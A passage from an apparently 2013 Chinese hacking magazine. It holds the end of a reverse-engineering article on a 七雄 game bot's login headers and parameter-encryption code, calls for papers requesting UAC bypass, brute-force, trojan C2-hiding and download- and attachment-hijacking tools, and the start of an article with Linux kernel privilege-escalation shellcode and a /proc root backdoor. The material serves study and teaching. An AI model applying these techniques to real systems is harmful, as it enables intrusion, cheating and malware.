| 构造 HTTP 的请求 Header | `"Accept: */*\r\n"`<br>`"Accept-Language: zh-CN\r\n"`<br>`"Referer:http://cdn.dl.7.qq.com/dynasty/swf/Loading.swf?d793f52c642f41641fd9728091c7fcb\r\n"`<br>`"x-flash-version: 11,7,700,202\r\n"`<br>`"Content-Type: application/x-amf\r\n"`<br>`"Content-Length:%d\r\n"`<br>`"UA-CPU: x86\r\n"`<br>`"Accept-Encoding: gzip, deflate\r\n"`<br>`"User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1;"`<br>`"QQDownload 732; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET4.0C; .NET4.0E)\r\n"`<br>`"Host:%s\r\n"`<br>`"Connection: Keep-Alive\r\n"`<br>`"Cache-Control: no-cache\r\n"` |
| 构造 Cookie | `"Cookie:JSESSIONID=%s; ptisp=cnc;"`<br>`" ptui_loginuin=%s; pt2gguin=%s; uin=%s;"`<br>`"skey=%s; RK=%s; "`<br>`"7_fx_login=%s; sFrom=website"` |

表 1

请求 URL 中需要注意的是 “s368”，游戏服务器编号，用户选择不同的游戏服务器编号不同，这里 s368 为兰州 1 区；`Content-Length` 表示发送 HTTP 数据的大小，因为每次发送指令数据的大小不一样，所以需要编程控制其中的格式化字符串 “%d”；整个 URL 代表接收 AMF 游戏指令的服务器；Header 中 Host 的参数为游戏服务器域名，本例为 `s368.sh.7.qq.com`，Cookie 中的 `JSESSIONID`、`7_fx_login`、`skey`、`RK` 等核心 Cookie 值为用户登录过程服务器返回的 Cookie，这些 Cookie 缺一不可，否则无法实现与服务器交互，各参数由来请详细研究图 3。

至此，我们就构造好了游戏请求协议包的头部，只要再加上请求包的游戏请求指令，就可以顺利向游戏服务器发送指令了。如果你认为我们的工作已经完成大半，我可以遗憾地告诉各位读者，我们的工作才刚刚开始，游戏辅助的登录部分只占整个辅助程序的 10% 左右，其余的很多细节我们还要继续研究。

## 功能模块分析

逆向七雄军师后，查看其源码，发现整个辅助程序由五个模块组成，如图 4 所示。
图 4

- **Base 模块：** 程序的系统配置、日志输出、部分全局变量定义。
- **逻辑模块：** 程序的核心模块，包括程序逻辑类（Xiong7）、君主类（User）、武将类（WuJiang）、主城堡（CastleMain）四个核心类的定义，还包括技能类（Tech）、建筑类（Building）、好友信息类（Friend）、国家信息（country）等 63 个非核心类的定义。逻辑类中包括 MD5 加密、解密函数、用户登录函数（Login）、战斗函数（StartCombat）、列出所有城堡建筑信息（ListCastleBuilding）、选择指定建筑（SelectCasBui）、获取农场朋友列表函数（GetAllFriendList）等指令发送与处理函数 800 余个。因为篇幅原因，在这里就不一一对 800 多个功能函数进行说明，大家可以打开逻辑模块中的 Xiong7 类进行查看。这 800 多个功能函数是游戏客户端的功能核心，不用说，也是“七雄军师”游戏辅助的核心。
- **网络操作模块：** 这部分的功能比较简单，只有一个类 WebClient，功能是将构造好的 HTTP 协议数据（包括头部和游戏指令数据）发送至游戏服务器并接收返回数据，技术细节上主要是建立 socket 连接，send、read 数据，保存 Cookie 会话，.NET 平台 Web 数据访问和操作还是十分方便的。
- **工具模块：** common 类，对不同类型参数进行 AMF 协议编码，用于指令参数进行加密函数；AMF 参数类（AmfParameter）：构造 AMF 参数数据；游戏请求类（AmfRequest）：构造游戏指令（指令名称+参数）；对服务器返回数据进行解析的类（AmfResponse），存储 AMF Object 对象的类（AmfDataObject）等。此外，还有 HeroBabelConfig 等少量游戏数据配置类。
- **界面模块：** 这个不用说了，程序的界面部分。除了界面资源更新函数外，还有一个挂机执行函数，这个函数很长，大概有近 2 万行代码，主要功能是执行用户设置好的游戏事件链表，根据执行结果不断地刷新界面和更改游戏相关数据。这部分代码虽然很长，但大部分是界面、有关数据结构的更新逻辑，核心代码不多。

下面以 `castleAct.freshCastleData（Castle castle_0）` 函数为例，说明系统指令加密的发送过程，实际上搞清楚这一个基本功能函数，触类旁通，理解其它函数就很容易了。函数的 C# 核心代码如下：

```csharp
object obj2 = null;
AmfParameter parameter = new AmfParameter();
parameter.AddOneInteger((int)castle_0.Id, User.CryptKey, User.CryptKeyNum);
if (!Send("castleAct.freshCastleData", User.NextTargetMain, parameter.BytesContent,
    ref obj2, "Tools.AmfDataObject"))
{
    ...
    return false;
}
AmfDataObject obj3 = (AmfDataObject)obj2;
if (obj3 == null)
{
    return false;
}
CastleMain.Shili = (int)obj3.GetValue("cellNum");
User.ActionLimit = (int)obj3.GetValue("maxActPoint");
User.CountryName = obj3.GetValue("countryName").ToString();
......（其余赋值代码省略）
```

函数的作用是用来刷新指定城堡的数据信息，参数是城堡对象 `castle`。这个函数是逻辑模块中比较典型和简单的一个功能函数，首先是生成一个 `AmfParameter` 参数对象用来保存指令的参数信息，接着调用 `AmfParameter` 的 `AddOneInteger` 方法对参数进行加密处理，大家从函数名称中也可以看出来该函数是对一个整数进行加密的，加密的密钥是后两个参数：`User.CryptKey` 和 `User.CryptKeyNum`。这两个参数要说明一下，是游戏在初始化数据时通过向服务器发送 “accountAct.getCryptKey” 指令得到的参数值。上述加密过程看上去简单，可是在逆向该程序之前，我自己写过指令发送程序，对无参数的指令服务器能够正常接收并反馈信息，如 “accountAct.getCryptKey”、“accountAct.isEnterGame”、“chatAct.getAllMessage4New” 等指令；但对携带参数的指令，起初认为指令只是将参数以明文方式携带并发送至服务器，后来用 firebug+AmfExplorer 抓包发现并不是这样。以 `castleAct.freshCastleData` 指令为例，抓包发现其参数是 42、70、242 之类的一个数组，并不是静态的参数列表，就证明游戏系统为了防止外挂或辅助程序制作，将所有指令参数进行了加密处理。但是，问题又来了，加密函数在哪里？算法是什么？密钥是什么？这一切在没有逆向七雄军师之前都是一个大大的困扰许久的谜团。为什么七雄军师就可以轻松实现所有指令的模拟发送和逻辑控制，它是如何做到的？这一切，在逆向军师后终于明白了，加密参数的核心算法部分在加密模块中的 `Common` 类部分，下面将以 `AmfParameter` 的 `AddOneInteger` 方法为例说明一下系统最核心的加密部分是如何运作的，搞清楚这部分，就会有一种豁然开朗的感觉。

本例中 `castle_0.Id=206256`，`accountAct.getCryptKey="4784e4708d99d915d39ddf933497bbad"`，`User.CryptKeyNum=3`，加密函数如下：

```csharp
public void AddOneInteger(int int_0, string string_0, int int_1)
{
    this.byte_0[4] = 1;
    byte[] buffer = this.method_0(int_0, string_0, int_1);
    this.byte_0 = Common.CombineBytes(this.byte_0, buffer);
}
```

其中核心加密函数 `method_0(int_0, string_0, int_1)` 的代码如下：

```csharp
byte[] buffer = Common.Uint2Amf3IntBytes((uint)int_0);
byte[] buffer2 = Common.Uint2Amf3StringIntBytes((uint)(buffer.Length + 1));
byte[] buffer3 = Common.Encrypt(Common.CombineBytes(new byte[] { 4 }, buffer), string_0, int_1);
return Common.CombineBytes(Common.CombineBytes(new byte[] { 0x11, 12 }, buffer2), buffer3);


```

对一个整数的加密过程很简单。首先利用基础加密函数 `method_0` 对 `int_0` 进行加密，接着对加密的结果和字节数组 `byte_0` 进行连接操作。`method_0` 的操作过程为：

- 1) 首先将 `int_0` 转换成为 AMF3 协议整型数据格式，返回值 AMF3 数据缓冲指针；
- 2) 对第一步返回的数据缓冲长度，按 AMF3 协议字符串数据格式进行转换，返回结果 `buffer2`；
- 3) 新建立一个 4 字节空数组，与第 1 步返回的数据进行连接。将连接的结果、加密字符串密钥 `string_0` 和 `int_1` 作为参数，传递给基础加密函数 `Encrypt`，返回加密结果 `buffer3`；
- 4) 新建立字节数组（`0x11,12`），将其与 `buffer2` 连接，将连接结果再次与 `buffer3` 连接，得到最终加密结果。

核心加密函数 `Encrypt` 的流程如图 5 所示。
图 5

核心加密函数 `Encrypt(byte[] byte_0, string string_0, int int_0)` 逐字节地对参数 1 `byte_0` 字节数组进行加密操作，当字节索引 `index % int_0`（参数 3）结果为 0，进行图示的异或运算，结果不为 0 时字节值保持不变。上面例子对 “206256” 服务大区编号的加密结果为字节序列（10,0,0,0,1,17,12,9,48,140,203,4），将此序列作为 `castleAct.freshCastleData` 指令的参数，存入准备发送的 AMF 指令中，发送至服务器就可以得到正确的反馈信息。

除了最基本的 `AddOneInteger` 参数加密指令外，系统其余参数加密函数如表 2 和表 3 所示。

| 函数 | 说明 |
|---|---|
| `method_0(int int_0, string string_0, int int_1)` | 对一个 int 加密 |
| `method_1(string string_0, string string_1, int int_0)` | 对一个字符串进行加密 |
| `method_2(string string_0, string string_1, int int_0)` | 对一个字符串进行加密 |
| `method_3(string string_0, ArrayList arrayList_0, string string_1, int int_0)` | 对普通数组加密 |
| `method_4(string string_0, object object_0, string string_1, int int_0)` | 对一个 AMF Object 对象进行加密 |
| `method_5(string string_0, object object_0, string string_1, int int_0)` | 对一个内嵌数组的 AMF Object 对象进行加密 |
| `method_6(string string_0, ArrayList arrayList_0, ArrayList arrayList_1, string string_1, int int_0)` | 对两个普通数组进行加密 |

表 2 基础加密函数

| 加密函数 | 调用函数 |
|---|---|
| AddOneArray：对一个数组进行加密，加密时对数组数据类型不同，采用不同的加密方式 | SaveHeros 保存英雄列表信息等 8 个指令使用 |
| AddOneArrayOneInteger：对一个数组和一个整数进行加密 | GetPreCombatDetail(ArrayList arrayList_0, int int_0) 等 2 个指令使用 |
| AddOneArrayTwoInteger：对一个数组和两个整数进行加密 | 仅 StartCombatAuto 1 个指令使用 |
| AddOneDynamicArrayObject：对一个 AMF Object 对象数组进行加密 | SaveSiegeDef、SaveYsChangeArmy 2 个指令使用 |
| AddOneDynamicObject：对一个 AMF Object 对象进行加密 | ArmyOutBattle 等 14 个指令使用 |
| AddOneDynamicObjectOneInteger：对两个 AMF Object 对象和一个整数进行加密 | 仅 SaveAutoConfig 1 个指令使用 |
| AddOneIntegerOneArray：对一个整数和一个数组进行加密 | ChangeChallengeHero 等 8 个指令使用 |
| AddOneIntegerOneArrayOneInteger：对两个整数和一个数组进行加密 | ChangeChallengeHero 等 3 个指令使用 |
| AddOneIntegerOneString：对一个整数一个字符串进行加密 | GetCardFriendList 等 5 处指令使用 |
| AddOneIntegerTwoString：对一个整数两个字符串进行加密 | StealAreaOfOtherFarm 1 个指令使用 |
| AddOneObject：对两个数组进行加密（有点特殊） | OfferResAndItem 3 个指令使用 |
| AddOneString：对一个字符串加密 | 很多 |
| AddOneStringOneInteger：对一个字符串和一个整数加密 | DeleteEnemy 等 3 个指令使用 |
| AddOneStringTwoDynamicObject：对一个字符串两个 AMF Object 对象进行加密 | SendUserShareMessage 1 个指令使用 |

| 功能加密函数 | 使用说明 |
|---|---|
| AddSpecThreeString：对三个字符串进行加密 | SendMessage 1 个指令使用 |
| AddThreeInteger：对三个整数进行加密 | 很多 |
| AddTwoInteger：对两个整数进行加密 | 很多 |
| AddTwoIntegerOneString：对两个整数一个字符串进行加密 | RecruitArmy 1 个指令使用 |
| AddTwoStringOneInteger：对两个字符串和一个整数进行加密 | StartPlantOnFarmAreav 1 个指令使用 |

表 3 功能加密函数

`Method_0` 等 6 个基础加密函数是加密核心，`AddOneInteger` 等 20 个功能加密函数都是对基础加密函数进行调用和组合，这些函数构成了辅助系统的加密核心。上面的加密和功能函数我均用 VC 进行了模块实现，如 `method_0` 函数，VC 实现核心源码如下：

```cpp
CByteArray *pbuffer, *pbuffer2, *pbuffer3, *pbuffer4, *ptemp;
......    // 数据初始化
pbuffer = CCommonFuns::_Uint2Amf3IntBytes((UINT)int_0);
pbuffer2 = CCommonFuns::_Uint2Amf3StringIntBytes((UINT)pbuffer->GetSize() + 1);
ptemp = CCommonFuns::_CombineBytes(&tmp, pbuffer);
pbuffer3 = CCommonFuns::_Encrypt(ptemp, string_0, int_1);
ptemp->RemoveAll();
ptemp = CCommonFuns::_CombineBytes(&tmp2, pbuffer2);
pbuffer4 = CCommonFuns::_CombineBytes(ptemp, pbuffer3);
......    // 内存清理


```

下面以 `RefreshCasBui`（用来刷新城堡中指定建筑数据信息）函数为例，说明函数发送指令和解析指令的基本过程，流程如图 6 所示。
图 6

该函数在逻辑模块中，代码很简单，可以自行查看，这里不详细说明。此外，在逻辑模块中有大约几百个类似的功能函数，这些函数构成了系统的指令集。虽然函数繁多，但都是以加密函数为基础，操作流程也与 RefreshCasBuf 函数类似，阅读理解起来也不太费脑力，就是函数数量较多。如果体力充足，完全吃透这些指令不是问题。

## 事件调度

**ScheduleEvent**。这个类是用户执行“挂机”操作的基础，用户在系统界面交互的时候会生成指定的 ScheduleEvent 事件，接着会把事件写入到调度链表中，待用户执行挂机操作时，会顺序执行事件链表中的操作，以实现“挂机”的自动化操作。其执行原理如图 7 所示。

图 7

程序在初始化时先写入系统初始化的函数集，接着把各功能函数事件写入到调度事件链表中，如升级建筑、升级军队、收割农场……需要说明的是，真实的事件调度函数非常复杂，因为系统需要根据事件函数执行的反馈和系统现有保存数据进行其他的一些逻辑处理，如升级建筑的资源不够，需要给用户以提示，这些逻辑判断都需要另写代码。总调度函数在系统的界面模块 method_67 方法中，代码超长，有近四万行，有兴趣的可以研究一下。

## 总结

本文通过逆向“七雄军师”辅助软件，结合 AMF3 协议格式，深入分析了辅助系统的模拟登录服务器全过程、指令参数的加密核心函数和指令执行的流程。因为系统指令函数数量巨大，本文未对所有指令功能逻辑进行分析。建议读者首先掌握系统的核心加密功能和指令执行基本流程，这样阅读系统的源码就非常容易了。此外，笔者利用 VC 实现了大部分功能函数实现过程，但因为篇幅原因不能一一列举，有志同道合的同志可以一起进行研究。

一款出色的辅助程序不仅需要开发者有全面的编程技巧，内容涉及网络、加解密、逻辑判断等，更重要的是需要对游戏的操作流程十分了解，需要对游戏进行大量的调试工作，获取关键的数据，这样才能设计、制作好游戏的辅助程序。另一方面，个人觉得将一个辅助程序写得如此全面，加密、解密算法准确，逻辑控制如此完美，几乎是游戏客户端程序的再现。如果不是游戏内部开发人员，我相信普通用户是几乎没有能力逆向、编写这些辅助软件的。当然，这只是我个人感觉，看过此文后，我相信你也有你的见解，是不是？

（完）

### 2013 年第 11 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 11 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

## 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- Windows UAC 低权限下，进入系统后提高账户权限的方法。

## 2. 操作文件监控

说明：

- 支持软件：记事本、Office 2003、Office 2007、Adobe 文件格式；
- 通过监控用户创建或者打开的文件，如果发现存在 txt、doc、docx、xls、xlsx、ppt、pptx、pdf 等后缀文件则进行日志记录。

要求：

- 记录创建的 8 种文件格式（txt、doc、docx、xls、xlsx、ppt、pptx、pdf）的名称和路径；
- 文件的复制、新增、创建、删除都需要记录；
- 支持多国语言；
- 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 3. 多用户 3389 远程桌面登录

要求：

- Windows XP 和 Win7 默认只允许一个用户操作桌面。当远程桌面登录进去，就会将当前桌面切换为锁定状态。请实现多用户登录远程桌面，同时操作，互不影响；
- 至少支持两个用户同时登录；
- 支持 Windows XP、Win7 32 位和 64 位；
- 支持中英文；
- 使用 VC++2008 编译工具，编写成控制台程序，完美支持，无任何出错提示。

## 4. Web 服务器批量扫描破解

- 针对目标 IP 参数要求  
  - 10.10.0.0/16  
  - 10.10.3.0/24  
  - 10.10.1.0-10.255.255.255

- 针对目标 Web 服务器扫描要求  
  - 可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：  
  - Tomcat  
  - Weblogic Jboss  
  - Apache  
  - JOnAS  
  - WebSphere  
  - Lotus Server  
  - IIS（Webdav）  
  - Axis2  
  - Coldfusion  
  - Monkey HTTPD  
  - Nginx

- 针对目标 Web 服务器后台扫描  
  - 针对目标进行后台地址搜索。

- 针对目标 Web 后台密码破解  
  - 搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

## 5. 木马控制端 IP 地址隐藏

要求：

- 在远程控制配置 server 时，一般情况下控制地址是写入被控端的。当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址；
- 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 6. 暴力破解密码

要求：

- 针对 3389 远程桌面、VNC、R-admin、PCAnywhere 暴力破解密码；
- 读取指定的用户名和密码字典文件；
- 采用多线程；
- 所有函数都必须判断错误值；
- 使用 VC++2008 编译工具实现，控制台程序；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 支持 Windows XP/2003/7/2008。

## 7. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 Web 后台无验证码登录形式的后台弱口令账密暴力破解。

要求：

- 能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 根据抓取提交账密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 高级功能：默认字典跑不出来的后台，可根据设置相应的 Google、Bing 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账密可通过 Google、Bing 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账密，如用户为 admin，密码可自动填充为域名；用户为 abcd@abcd.com，账户密码就可以设置为 abcd、abcd 以及 abcd123 或 abcd123456 等简单账密；
- 拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账密字典可自定义设置等。

## 8. 编写端口扫描器

要求：

- 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 扫描方式采用多线程，并能设置线程数；
- 将功能编写成 DLL，导出功能函数；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 尽量多做出错异常处理，以防程序意外崩溃；
- 使用 VC++2008 编译工具编写；
- 支持系统 Windows XP/2003/2008/7。

## 9. Android WiFi Tether 数据转储劫持

说明：

WiFi Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WiFi Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 开启 WiFi 热点后，对流经本机的所有网络数据进行存储；
- 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 10. 邮箱附件劫持

说明：

编写一个程序，当用户在浏览器上登录邮箱（本地权限），发送邮件时，自动将附件里的文件替换为另外一个文件。

要求：

- 支持 Gmail、Hotmail、Yahoo 新版旧版、163、126；
- 支持 IE 浏览器 6/7/8/9/10，或支持火狐浏览器，或谷歌浏览器。

## 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- Windows UAC 安全设置为最高级别；
- 系统补丁打到最新；
- 支持 32 位和 64 位系统。

## 2013 征稿启示

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day。稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理；对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证。最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章。

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求

- 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 在稿件末尾请注明您的账户名、银行账号以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费；
- 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志。请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 稿费发放周期：稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列；
- 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：  
  - 一等稿件 900 元/篇  
  - 二等稿件 600 元/篇  
  - 三等稿件 300 元/篇
- 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡；
- 投稿信箱及编辑联系：投稿信箱：hadefence@gmail.com；编辑 QQ：675122680。

## 《黑客防线》11 期文章目录

总第 155 期 2013 年

### 漏洞攻防

- 探究 Linux kernel ShellCode（修炼中的柳）....................................2
- 浅析 AppLocker 与缺陷利用（李旭昇）....................................7
- 一次“失败”的渗透（独猫）................................................9
- Linux 内核栈溢出研究（修炼中的柳）....................................14

### 编程解析

- R0 下利用 MiniFilter 实现邮箱附件劫持（李旭昇）....................20
- R3 下实现邮箱附件劫持（倒霉蛋儿）....................................23
- HTTP 模拟登录 QQ 朋友网（宗旋）.......................................30
- 内存镜像中的文本信息提取技术研究（爱无言）...........................32
- 浅议 Windows 调试机制（王晓松）.......................................34

### 网络安全顾问

- 基于 Snort、MySQL、Hadoop 和 HBASE 实现异常流量检测与入侵调查系统（linxinsnow[N.N.U]）................................................39

### 密界寻踪

- BOOTKIT 探秘之 Wistler 木马分析（0daywang Overdb 熊猫正正）........48
- 2013 年第 12 期杂志特约选题征稿.......................................73
- 2013 年征稿启示........................................................76

## 探究 Linux kernel ShellCode

文/图 修炼中的柳

假如把内核 exploit 比喻成一门艺术，内核 ShellCode 绝对是这门艺术中的点睛之笔。在我看来，一个好的 ShellCode 绝对是 exploit 成功的一大功臣，不仅稳定有效，更能跨版本溢出。而理解一个 exploit，最基本的切入点就是找到其 ShellCode 所在，因为 exploit 的最终目的都是执行我们的 ShellCode，因此我决定记录下在 exploit 学习中相对精彩的 ShellCode。

## 最基本的 prepare_kernel_cred/commit_creds

最普通的 ShellCode 莫过于 prepare_kernel_cred/commit_creds。由于 2.6.28 后的 Linux 内核使用新的内核凭证，以往的 uid、gid、ugid、euid 和 egid 等信息都放在 struct cred 结构内，而不再是单纯放在 task_struct 中，所以现在最简单的 Root ShellCode 的方法就是使用 prepare_kernel_cred/commit_creds。

对于内核 payload 的编写，我们无法直接在 Ring3 层程序中直接使用 Linux 内核的数据结构与函数声明，我们往往可以用以下代码来伪造声明这两个函数。

```c
// 原始代码
typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

// 伪造的代码
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
```

## 暴力搜索法

由于某些发行版 Linux 对 /proc/kallsyms 和 /boot/System.map 的限制，我们无法简单地用 prepare_kernel_cred/commit_creds 来编写 ShellCode，只能选择使用暴力搜索提权。这种方法在 2.6.28 前的 exploit 中使用普遍，因为当时 uid、gid 直接放置在 task_struct 中，用 current 宏计算出 current_task_struct 后，直接把 uid 和 gid 修改为 0 就好了。但由于新的权能结构 cred 以及 thread_info 结构的出现，现在的暴力搜索方法是依赖 thread_info => task_struct => cred 来查找修改 cred 中的 uid/gid。不同的发行版由于内核配置的不同（比如是否开启 CONFIG_CC_STACKPROTECTOR，是否打开 CONFIG_SMP），cred 结构在 task_struct 中有着不同的偏移值，所以暴力搜索法的缺点是其在不同发行版中通用性不好。

了解了这些基本背景资料，我们就能动动手脚了。首先通过 thread_info 查找 task_struct，由于 task_struct 是 thread_info 的第一个元素，所以这是很简单的。在得到 task_struct 后，通过一个二层 for 循环测试来查找 cred 结构。

Cred 的数据结构如图 1 所示，因此只要暴力搜索出 cred[1] == cred[3] == cred[5] == uid、cred[2] == cred[4] == cred[6] == gid，并将 uid/gid 统统改为 0，目的即可达到。

图 1

以下是暴力搜索并修改 uid 的代码。

```c
void sc(void)
{
    int i, j;
    uint8_t *current = *(uint8_t **)(((uint64_t)&i) & (-8192));
    uint64_t kbase = ((uint64_t)current) >> 36;
    for (i = 0; i < 4000; i += 4) {
        uint64_t *p = (void *)&current[i];
        uint32_t *cred = (uint32_t *)p[0];
        if ((p[0] != p[1]) || ((p[0] >> 36) != kbase))
            continue;
        for (j = 0; j < 20; j++) {
            if (cred[j] == uid && cred[j + 1] == gid) {
                for (i = 0; i < 8; i++) {
                    cred[j + i] = 0;
                    return;
                }
            }
        }
    }
}
```

比较有困惑的应该是 `&(-8192)` 这句代码，其实这正是查找 thread_info 的精髓所在。现在的 Linux 内核栈默认是两页，即 8k = 8192。`~(THREAD_SIZE - 1) = ~(8192 - 1) = ~1111 1111 1111 = 0000 0000 0000`，这其实就是取其最低 12 位为 0，再与随便一个内核栈变量的地址去和运算，就得到了当前进程的 thread_info，剩下的工作按照上面的思路就很简单了。这段代码的技巧其实来自 Linux 2.6.19，但现在的内核鉴于 SMP 和跨平台的理由，已经使用 `read_pda()` 来获取当前任务的 thread_info 了。

## 终极目标：留一个永久的后门

某些内核逻辑漏洞或静态条件漏洞往往很难触发，极端情况是触发一次后因为修改内核数据，所以不能二次触发，因此我们应该在内核 ShellCode 中下功夫，留一个可以多次触发的后门。

如何实现呢？首先我想到最简单的想法是构建一个 proc 虚拟文件 `/proc/dummy`，当有进程触发了 `write_proc` 函数后，就使用 `commit_creds` 来修改其权限即可。我们所需的函数如下：

```c
void* (*prepare_kernel_cred)(void*) __attribute__((regparm(3)));
void* (*commit_creds)(void*) __attribute__((regparm(3)));
char* (*create_proc_entry)(const char *p, unsigned int m, void *ptr)
    __attribute__((regparm(3)));
```

使用 `create_proc_entry` 后返回一个 `struct proc_dir_entry` 类型的指针，只要注册一个写操作的函数指针指向提权函数就行了。有一个小细节是我们的 exploit 是用户态程序，`proc_dir_entry` 类型是内核态数据，因此我们要手动计算 `write_proc` 与 `proc_dir_entry` 结构体中的偏移量，如图 2 所示。

图 2

计算得出的偏移量是 60。根据以上思路，在提权代码中，我们需要在内核中运行如下的 `kernel_code` 代码。

```c
static inline int dummy_write() {
    commit_creds(prepare_kernel_cred(0));
}
int KERNCALL kernelcode() {
    char *ptr = create_proc_entry("dummy", 0666, NULL);
    ptr += 60;
    *(int*)ptr = dummy_write;
    __asm volatile ("mov $ff, %esp;""iret;");
}
```

实际测试下，的确能成功注册 proc 下的文件，可是尝试 `echo 123 >/proc/dummy` 时却产生了 oops 了，如图 3 所示。

图 3

后来我不停地想这是为什么，突然发现我们的注册写函数 `dummy_write` 是存在于内核进程上下文的，进程结束后就退出了用户进程上下文。也就是说，我们的函数处于用户空间（0x00000000-0xBFFFFFFF 间），下一个进程就不能再使用这个提权函数了。这样一来，我们就应该清楚地明白，我们必须要把提权函数放在 0xC0000000 地址以上。

